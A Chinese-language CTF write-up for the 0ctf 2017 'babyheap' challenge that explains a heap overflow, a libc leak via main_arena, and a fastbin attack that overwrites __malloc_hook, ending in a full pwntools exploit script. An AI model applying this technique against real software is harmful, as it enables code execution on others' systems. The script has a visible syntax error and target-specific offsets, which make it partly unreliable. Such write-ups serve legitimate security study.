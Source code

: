 题目四个功能 alloc fill free dump

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

    考察点：fastbin attack

    漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

    求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

    两种方法

  第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，
  然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	
    新建两个块，用chunk0覆盖掉chunk1的头

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/2.png)
	
    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)
    
  新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小
  这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。
  利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了


![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/3.png)
![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/4.png)



    求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

    (靶机偏移是0x3a5678   与我机差值0x9b00)

  第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址


    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

    free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/5.png)

    malloc_hook偏移为0x3a5610


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/6.png)

    可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/7.png)


    shellcode依然由one_gadget取得

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/8.png)


执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             


